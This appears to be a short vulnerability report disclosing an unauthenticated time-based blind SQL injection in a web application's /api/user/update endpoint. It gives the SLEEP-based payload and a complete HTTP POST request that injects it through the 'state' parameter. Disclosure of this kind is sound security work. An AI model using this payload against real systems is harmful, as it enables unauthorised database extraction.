



You can see in the code that there are injection points:



Trace up to controller:



Payload：

```
1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))>100, SLEEP(3), 0)
```

And the interface has no permission check, so it can be injected in the foreground

```
POST /api/user/update HTTP/1.1
Host: 192.168.109.146:8084
Content-Length: 77
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.6818.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://192.168.109.146:8084
Referer: http://192.168.109.146:8084/role
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-platform: "macOS"
sec-ch-ua-mobile: ?0
Connection: close

username=wx&state=1+AND+IF(ASCII(SUBSTRING(DATABASE(),1,1))>100,+SLEEP(3),+0)
```



